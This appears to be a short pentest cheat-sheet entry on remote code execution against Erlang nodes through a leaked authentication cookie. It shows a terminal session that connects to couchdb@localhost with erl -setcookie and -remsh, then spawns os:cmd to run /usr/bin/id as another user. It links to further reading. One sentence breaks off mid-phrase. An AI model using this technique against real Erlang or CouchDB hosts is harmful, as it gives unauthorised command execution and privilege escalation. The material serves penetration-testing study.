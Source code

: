 # Erlang

## Authentication Cookie RCE

If the authentication cookie for an erlang node is leaked, then you can 

```
otheruser@booj:/$ export HOME=/tmp
export HOME=/tmp
otheruser@booj:/$ erl -sname booj -setcookie cookieval -remsh couchdb@localhost
<me booj -setcookie cookieval -remsh couchdb@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(couchdb@localhost).
net_adm:ping(couchdb@localhost).
pong
(booj@booj)2> spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

### Further Reading

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)

